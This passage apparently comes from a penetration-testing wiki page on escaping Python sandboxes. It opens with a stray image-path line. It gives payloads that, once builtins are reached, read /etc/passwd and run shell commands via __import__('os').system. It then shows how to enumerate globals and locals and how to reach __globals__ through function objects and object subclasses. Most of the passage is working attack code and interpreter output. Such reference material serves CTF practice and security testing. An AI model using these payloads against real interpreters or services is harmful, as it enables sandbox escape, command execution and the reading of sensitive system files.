 ### Builtins payloads

```python
# Possible payloads once you have found the builtins
.open("/etc/passwd").read()
.__import__("os").system("ls")
# There are a lot other payloads that can be abused to execute commands
# See them below
```

## Globals and locals

Checking the **`globals`** and **`locals`** is a good way to know what you can access.

```python
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'attr': <module 'attr' from '/usr/local/lib/python3.9/site-packages/attr.py'>, 'a': <class 'importlib.abc.Finder'>, 'b': <class 'importlib.abc.MetaPathFinder'>, 'c': <class 'str'>, '__warningregistry__': {'version': 0, ('MetaPathFinder.find_module() is deprecated since Python 3.4 in favor of MetaPathFinder.find_spec() (available since 3.4)', <class 'DeprecationWarning'>, 1): True}, 'z': <class 'str'>}
>>> locals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'attr': <module 'attr' from '/usr/local/lib/python3.9/site-packages/attr.py'>, 'a': <class 'importlib.abc.Finder'>, 'b': <class 'importlib.abc.MetaPathFinder'>, 'c': <class 'str'>, '__warningregistry__': {'version': 0, ('MetaPathFinder.find_module() is deprecated since Python 3.4 in favor of MetaPathFinder.find_spec() (available since 3.4)', <class 'DeprecationWarning'>, 1): True}, 'z': <class 'str'>}

# Obtain globals from a defined function
get_flag.__globals__

# Obtain globals from an object of a class
class_obj.__init__.__globals__

# Obtaining globals directly from loaded classes
[ x for x in ''.__class__.__base__.__subclasses__() if "__globals__" in dir(x) ]
[<class 'function'>]

# Obtaining globals from __init__ of loaded classes
[ x for x in ''.__class__.__base__.__subclasses__() if "__globals__" in dir(x.__init__) ]
```